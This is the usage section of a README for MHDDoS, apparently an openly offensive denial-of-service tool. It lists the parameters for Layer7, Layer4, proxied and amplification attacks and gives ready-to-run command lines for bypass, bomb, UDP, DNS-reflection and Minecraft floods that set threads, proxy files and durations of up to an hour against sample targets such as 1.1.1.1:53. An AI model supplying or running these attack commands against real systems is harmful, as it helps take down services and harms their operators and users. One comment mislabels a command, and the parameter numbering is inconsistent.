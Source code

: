 ## Parameters
* Layer7:
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 5: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files-Format))
  - 4: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 5: RPC (Requests pre connection)
  - 6: Duration (Time to finish attack in seconds)
  - 7: Debug Mode (Optional)

* Layer4 Noraml:
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Debug Mode (Optional - [What is debug mode](https://github.com/MHProDev/MHDDoS/wiki/what-is-debug-mode))

* Layer4 Proxied:
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 6: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files-Format))
  - 7: Debug Mode (Optional)

* Layer4 Amplification:
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Reflectors File ([Reflectors File](https://github.com/MHProDev/MHDDoS/wiki/Reflectors-file-usage))
  - 6: Debug Mode (Optional)


## Examples
* Layer7 (Website):
```shell script
# Running bypass attack from 101 threads, 
# with socks 5, 100 requests per proxy (connection), for 3600 seconds  
python start.py bypass https://example.com 5 101 socks5.txt 100 3600
# Running bomb attack from 50 threads (be careful must be < 300)
# with all proxies (0), 100 requests per proxy (connection), for 3600 seconds
python start.py bomb https://example.com 0 50 proxy.txt 100 3600
```

* Layer4 (Server/Home):
```shell script
# Running udp attack from 1 threads, for 3600 seconds  
python start.py udp 1.1.1.1:53 1 3600
# Running dns attack from 100 threads, for 3600 seconds  
# with reflector servers from dns.txt, for 3600 seconds  
python start.py dns 1.1.1.1:53 100 3600 dns.txt
# Running dns attack from 1000 threads
# with socks 5, for 3600 seconds  
python start.py minecraft 1.1.1.1:53 1000 3600 5 socks5.txt
```

* Debug Mode (Log Attack status):
```shell script
python start.py bypass https://example.com 5 1000 socks5.txt 100 100 true
python start.py udp 1.1.1.1:53 1 100 true
python start.py dns 1.1.1.1:53 1 100 dns.txt true
python start.py minecraft 1.1.1.1:53 1 100 5 socks5.txt true
```

* Tools/Help:
```shell script
python start.py tools
python start.py help
```